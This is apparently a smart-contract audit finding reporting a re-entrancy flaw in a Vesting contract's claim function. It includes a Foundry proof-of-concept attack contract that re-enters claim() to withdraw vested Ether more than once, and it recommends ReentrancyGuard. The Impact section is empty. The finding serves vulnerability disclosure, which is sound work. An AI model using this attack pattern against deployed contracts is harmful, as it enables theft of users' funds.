 Fierce Scarlet Sawfish

high

# Users can claim vested tokens more than once through re-entrancy

## Summary

When uses call Vesting.claim(), if the token is set to `address(1)` which represents Eth the Vesting contract will send Eth to the claimer. Unfortunately, based on how Vesting.claim() works, the claimer can then maliciously re-enter the Vesting.claim() function and claim more tokens than should be allowed.

## Vulnerability Detail

Vesting.claim() prevents users from claiming more tokens than allowed by updating the claimer's index at the end of Vesting.claim(). Because the index occurs AFTER Ether is sent to the claimer, the claimer can re-enter the claim function:

```solidity
if (pctAmount != 0) {
    if (address(token) == address(1)) {
        (bool sent, ) = payable(sender).call{value: pctAmount}("");
        require(sent, "Failed to send BNB to receiver");
    } else {
        token.safeTransfer(sender, pctAmount);
    }
    // AUDIT: this occurs AFTER sending Ether to the claimer
    s.index = uint128(i);
    s.amountClaimed += pctAmount;
}
```

Below is a forge test showing how this re-entrancy can occur:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Vesting, IERC20} from "../contracts/Vesting.sol";
import {ERC20} from "../node_modules/@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {SafeERC20} from "../node_modules/@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

contract AttackContract {
  Vesting vesting;
  bool private locked;

  constructor(Vesting _vesting) {
      vesting = _vesting;
      locked = false;
  }

  function attack() public {
      require(!locked, "Re-entrancy in progress");
      vesting.claim();
  }

  // Fallback function to receive Ether
  receive() external payable {
      if (!locked) {
          locked = true;
          vesting.claim();
          locked = false;
      }
  }
}

contract VestingTest is Test  {
  Vesting vesting;
  address operator = address(0x01);
  address claimer1;
  address claimer2 = address(0x06);
  IERC20 public token;

  function setUp() public {
      vesting = new Vesting();
      claimer1 = address(new AttackContract(vesting));

      address tokenSale = address(0x02);
      address distributionWallet = address(0x04);

      uint128[2][] memory vestingPoints = new uint128[2][](2);
      vestingPoints[0] = [uint128(block.timestamp + 1 days), uint128(5000)];
      vestingPoints[1] = [uint128(block.timestamp + 2 days), uint128(5000)];

      vesting.initialize(
        operator, 
        tokenSale, 
        IERC20(address(1)), 
        distributionWallet, 
        vestingPoints
      );


      deal(distributionWallet, 100e18);

      address[] memory users = new address[](2);
      users[0] = claimer1;
      users[1] = claimer2;

      uint256[] memory amounts = new uint256[](2);
      amounts[0] = 10e18;
      amounts[1] = 10e18;

      vm.prank(operator);

      // AUDIT: There is a separate bug that prevents calling updateUserDeposit when token is set to address(1) 
      vm.mockCall(
        address(1),
        abi.encodeWithSelector(bytes4(keccak256("safeTransferFrom(address,address,uint256)"))),
        abi.encode(10)
      );
      // AUDIT: Since updateUserDeposit is broken with Ether, let's still submit 20e18 to the dist wallet 
      deal(distributionWallet, 20e18);
      deal(address(vesting), 20e18);
      vesting.updateUserDeposit(users, amounts);
      
  }

  function testReenteringClaim() public { 
    // Claimer 1 claims
    vm.warp(block.timestamp + 5 days);
    vm.prank(claimer1);
    vesting.claim();

    vm.expectRevert();
    vesting.claim();
  }
}
```

## Impact

## Code Snippet

https://github.com/sherlock-audit/2024-03-zap-protocol/blob/main/zap-contracts-labs/contracts/Vesting.sol?plain=1#L67-L92

## Tool used

Manual Review

## Recommendation

The protocol should add a re-entrancy modifier using something like OpenZeppelin's [ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) to prevent re-entrancy.
